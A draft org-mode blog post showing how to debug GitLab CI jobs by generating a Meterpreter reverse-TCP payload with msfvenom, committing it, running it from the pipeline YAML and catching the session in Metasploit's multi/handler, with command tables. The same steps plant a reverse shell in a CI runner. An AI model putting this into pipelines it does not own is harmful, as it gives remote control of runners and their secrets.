 #+title: Debug Gitlab With Metasploit
#+Date: 2023-07-28
#+Draft: true
#+Tags[]: devops gitlab-ci gitlab metasploit
#+PROPERTY: header-args :eval never-export

More often than not I see people struggling with troubleshooting their
pipelines, and more often than not the chosen way of debugging such pipelines is
trial and error. There is a better solution for this which is more elegant and
effective.

By injecting code in between the commands which one wishes to troubleshoot, and
then having a full environment access along with the tools required to perform
tests and analysis is the ideal scenario. Considering the requirements:

  - Not always you can connect to the runner instance directly, so the runner
    has to connect to your server.
  - Runners can be executed inside a cluster (Kubernetes, Docker Swarm, AWS ECS,
    etc...), the tool and connection method must accommodate for it.
  - The injected binary must have the minimum amount of dependencies possible,
    so no further setup is required.
  - The binary must include tooling to facilitate the troubleshooting process,
    such as tools for downloading, uploading and manipulating files,
    troubleshooting network connections and connectivity issues and handling
    processes.

This is a concept which can be reused on other CI/CD tools, such as Github
Actions, Travis and Jenkins.

** Meterpreter
Meterpreter is a powerful and versatile post-exploitation tool widely used in
the field of cybersecurity. Developed as part of the Metasploit Framework,
Meterpreter is designed to provide remote access and control over compromised
systems, allowing penetration testers and security professionals to interact
with target machines seamlessly.

Meterpreter fulfill all our requirements, it operates using several connection
methods, including reverse connection, can be generated for not having any
dependencies and includes a good set of tooling which we can leverage to debug
CI/CD pipelines.

* Generate a Meterpreter payload
Once Metasploit is installed, simply run:

#+begin_src bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > meterpreter.elf
#+end_src

To facilitate the process, on systems with a few network cards, is common for
the first one to be a =loopback= interface, the bash function below get the first
IP address after the =loopback= interface:

#+begin_src bash
function msfvenom-linux-meterpreter-default() {
    local LHOST="${1:-$(ip addr show | grep -o "inet [0-9]*\.[0-9]*\.[0-9]*\.[0-9]*" | grep -o "[0-9]*\.[0-9]*\.[0-9]*\.[0-9]*" | head -2 | tail -1)}"
    local LPORT="${2:-4444}"
    echo "[+] Creating a reverse connect meterpreter payload for ${LHOST}:${LPORT}"
    msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=${LHOST} LPORT=${LPORT} -f elf > meterpreter.elf
    echo "[+] Result saved to meterpreter.elf"
}
#+end_src

Nothing more than this is required to create a Meterpreter binary. If you run
the function =msfvenom-linux-meterpreter-default= without any parameter, the first
network interface after =loopback= will be used, or you can specify as the first
parameter, the IP address which the meterpreter payload will use. The second
parameter is the port to which it will connect to, the default is =4444= in case
no port is set.

We can easily check if the resulting binary is statically linked:

#+begin_src bash :results verbatim
ldd ../../meterprefer.elf
#+end_src

#+RESULTS:
: 	statically linked

Other networking aspects should also be taken into consideration, in case you
are behind a firewall, opening the respective ports and configuring the proper
forward is required. If you are using =Nixos= you will need to setup your local
firewall as such:

#+begin_src nix
networking.firewall = {
  enable = true;
  allowedTCPPorts = [ 4444 ];
};
#+end_src

** Serving the binary
There are three main ways in which the binary can be injected into the CI/CD
pipeline:
- Add it directly to the git, commit and push it.
- Encode it with base64 and inject it into the pipeline definition, and during
  runtime convert it to a binary.
- Serve it over the network and download it as a step on the pipeline.

For the sake of simplicity, we will follow up with adding it to the repository
as a binary file.

* Executing
Before moving forward with the pipeline, the next step is to setup Metasploit
and listen for the connection from the binary. Start =msfconsole= on your platform
and use the following commands, adjust them based on the arguments used when
creating the binary:

#+begin_src
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.15.22
LHOST => 192.168.15.22
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started reverse TCP handler on 192.168.15.22:4444
#+end_src

* Gitlab runner job definition
For the exemplification of this technique, a simple pipeline like the one below
can be used to attest the functionality and capabilities described on this
document. Add the following file to your repository, commit and push it.

#+begin_src yaml
stages:
  - "run"

Run:
  stage: run
  tags:
    - shell
  script:
    - chmod +x meterpreter.elf
    - ./meterpreter.elf
#+end_src

If =CI/CD= is not being shown on the left menu, select =Settings > General=, on this
page expand =Visibility, project features, permissions=, in the =Repository=
section, turn on =CI/CD=, select Save changes. On real pipelines you may be
interested in using =before_script= to execute the injected binary:

#+begin_src yaml
.start_debug_session:
  before_script:
    - chmod +x meterpreter.elf
    - ./meterpreter.elf

my_failing_job:
  extends: .start_debug_session
  script:
    - pytest

#+end_src

* Shell
After puting all the pieces together and triggering the pipeline, you should be
presented with similar messages on your Metasploit terminal.

#+begin_example
[*] Meterpreter session 1 opened (192.168.15.22:4444 -> 192.168.15.22:33800) at 2023-07-28 23:46:41 +0200

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter x64/linux  rafael @ localhost  192.168.15.22:4444 -> 192.168.15.22:33800 (192.16
                                                            8.15.22)
#+end_example

You can use =sessions -i= to interact with a connection, and =Ctrl+Z= to stop
interacting with it without killing it. Once the connection is in place, you
have a full shell, along with a lot of other useful commands which you can use
to debug your pipelines:

#+begin_example
meterpreter > ls
Listing: /var/lib/private/gitlab-runner/builds/s5L862kM/0/rafael/test-debug-gitlab
===============================================================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040755/rwxr-xr-x  86       dir   2023-07-29 02:26:42 +0200  .git
100644/rw-r--r--  130      fil   2023-07-29 02:26:41 +0200  .gitlab-ci.yml
100644/rw-r--r--  6225     fil   2023-07-29 02:25:31 +0200  README.md
100755/rwxr-xr-x  1038520  fil   2023-07-29 02:26:15 +0200  meterpreter.elf
#+end_example

** System commands
#+begin_example
Command       Description
-------       -----------
execute       Execute a command
getenv        Get one or more environment variable values
getpid        Get the current process identifier
getuid        Get the user that the server is running as
kill          Terminate a process
localtime     Displays the target system local date and time
pgrep         Filter processes by name
pkill         Terminate processes by name
ps            List running processes
shell         Drop into a system command shell
suspend       Suspends or resumes a list of processes
sysinfo       Gets information about the remote system, such as OS
#+end_example
** File commands
#+begin_example
Command       Description
-------       -----------
cat           Read the contents of a file to the screen
cd            Change directory
checksum      Retrieve the checksum of a file
chmod         Change the permissions of a file
cp            Copy source to destination
del           Delete the specified file
dir           List files (alias for ls)
download      Download a file or directory
edit          Edit a file
getlwd        Print local working directory
getwd         Print working directory
lcat          Read the contents of a local file to the screen
lcd           Change local working directory
lls           List local files
lpwd          Print local working directory
ls            List files
mkdir         Make directory
mv            Move source to destination
pwd           Print working directory
rm            Delete the specified file
rmdir         Remove directory
search        Search for files
upload        Upload a file or directory
#+end_example
** Networking commands

#+begin_example
Command       Description
-------       -----------
arp           Display the host ARP cache
getproxy      Display the current proxy configuration
ifconfig      Display interfaces
ipconfig      Display interfaces
netstat       Display the network connections
portfwd       Forward a local port to a remote service
resolve       Resolve a set of host names on the target
route         View and modify the routing table
#+end_example

* References
- [[https://docs.gitlab.com/ee/ci/yaml/][Gitlab CI reference]]
